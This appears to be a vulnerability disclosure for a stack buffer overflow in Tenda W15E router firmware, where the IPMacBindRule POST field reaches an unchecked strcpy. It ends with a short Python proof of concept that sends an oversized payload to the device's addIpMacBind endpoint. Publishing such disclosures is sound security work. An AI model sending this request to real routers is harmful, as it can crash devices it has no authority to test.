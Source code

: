 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-2722.html

## Affected version

W15EV1.0 V15.11.0.14

## Vulnerability details

The Tenda W15EV1.0 V15.11.0.14 firmware has a stack overflow vulnerability in the `formIPMacBindAdd` function. The `rules` variable receives the `IPMacBindRule` parameter from a POST request and is passed to function `ipMacBindListStore` as `listStr`. 

![image-20240417110001592](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417110001592.png)

In function `ipMacBindListStore`, the `listStr` is directly assigned to `inputList`. However, since the user can control the input of `IPMacBindRule`, the statement `strcpy((char *)&inputList, (const char *)listStr);` can cause a buffer overflow. The user-provided  `IPMacBindRule` can exceed the capacity of the `inputList` array, triggering this security vulnerability.

![image-20240417110045932](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417110045932.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addIpMacBind"
payload = b"a"*2000

data = {
        'IPMacBindRule':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)
